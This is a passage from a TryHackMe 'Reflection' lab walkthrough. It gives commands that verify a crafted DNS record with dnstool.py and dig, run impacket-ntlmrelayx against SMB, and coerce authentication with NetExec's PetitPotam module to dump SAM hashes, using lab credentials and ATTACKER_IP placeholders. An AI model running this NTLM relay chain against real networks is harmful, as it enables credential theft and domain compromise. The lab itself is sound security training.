 Verify the record exists:

```
 python3 dnstool.py -u 'reflection.thm'\\'sawan' -p 'R3flect0r' --action query \
  --record localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
  --data ATTACKER_IP TARGET_IP

# or using dig
 dig localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.reflection.thm @TARGET_IP
```

![NTLM_Relay](TryHackMe_Reflection_LDAP_Bind_Queried_validated.jpg)

### Dumping the SAM hashes (NTLM relay)

Start `ntlmrelayx` to intercept and relay NTLM authentication back to the target SMB service:

```
 impacket-ntlmrelayx -t smb://TARGET_IP -smb2support --no-http-server
```

![NTLM_Relay](TryHackMe_Reflection_Local_SAM_Dump.jpg)

Coerce the host to authenticate using NetExec + PetitPotam:

```
 netexec smb TARGET_IP -u sawan -p R3flect0r -M coerce_plus \
  -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```



When successful, `ntlmrelayx` should extract SAM hashes from the target host. Use the Administrator NTLM hash as needed for lab questions.

